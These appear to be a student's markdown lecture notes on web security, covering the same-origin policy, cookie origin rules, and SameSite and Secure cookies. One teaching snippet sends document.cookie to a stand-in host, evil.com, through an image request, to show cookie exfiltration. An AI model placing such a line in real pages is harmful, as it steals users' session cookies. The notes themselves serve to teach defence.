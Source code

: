 # Web Security

## Web Security Model
- Safely browse te web in the presence of web attackers
    - Browsers are like operating systems
    - Need to isolate different activities

![Alt text](image.png)

## Same Origin Policy (SOP)
- Origin: isolation unit/trust boundary on the web
    - (scheme, domain, port) triple derived from URL
    - Fate sharing: if you come from same places you must be authorized
- SOP Goal: isolate content of different origins
    - <ins>Confidentiality</ins>: Script contained in evil.com should not be able to read data in bank.ch page
    - Integrity: script from evil.com should not be able to modify the content of bank.ch page

![Alt text](image-1.png)
![Alt text](image-2.png)
![Alt text](image-3.png)

## Scripts
- __CAN__ load scripts from across origins
    -- Libraries!
- Scripts execute with privileges of the page
- Page can see source via func.toString()

![Alt text](image-4.png)

## Images
- Browser renders cross-origin images, but SOP prevent page from inspecting individual pixels
- But page can see other properties, like img.width

![Alt text](image-5.png)

# SOP for Cookies
- DOM SOP: origin is a (scheme, domain, port)
- Cookies use a separate definition of origin
    - Cookie SOP: ([scheme], domain, path)
    - (https, cseweb.ucsd.edu, classes/fa23/cse127-a)
- Server can declare domain property for any cookie
    - Set-cookie: ```
    <cookie-name>=<cookie-value>; Domain=<domain-value>```

![Alt text](image-6.png)
![Alt text](image-7.png)

- Can't set cookies for these public suffixes(?)

## How do we dicide to send coookies?
![Alt text](image-8.png)
![Alt text](image-9.png)

### Another Example
- What happens when your bank includes Google Analytics Javascript (a tracker) in their web page? Can that code access your Bank's authentication cookie?
    - __Yes!__ Javascript is running with origin's privileges. Can access document.cookie in DOM

- Also, SOP doesn't prevent leaking data:
```js
const img = document.createElement("image");
img.src = "https://evil.com/?cookies=" + document.cookie;
document.body.appendChild(img);
```

![Alt text](image-10.png)

## Partial Solutions: SameSite Cookies
```js
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
SameSite=Strict;
```
- Strict: A same-site cookie is only sent when the request originates from the same site (top-level domain)
- Lax: Send cookie on top-level "safe" navigations (even if navigating cross-site)
- None: send cookie without taking context into account

![Alt text](image-11.png)

## Partial Solutions: Secure Cookies
- A secure cookie is only sent to the server with an encrypted request over the HTTPS protocol

![Alt text](image-12.png)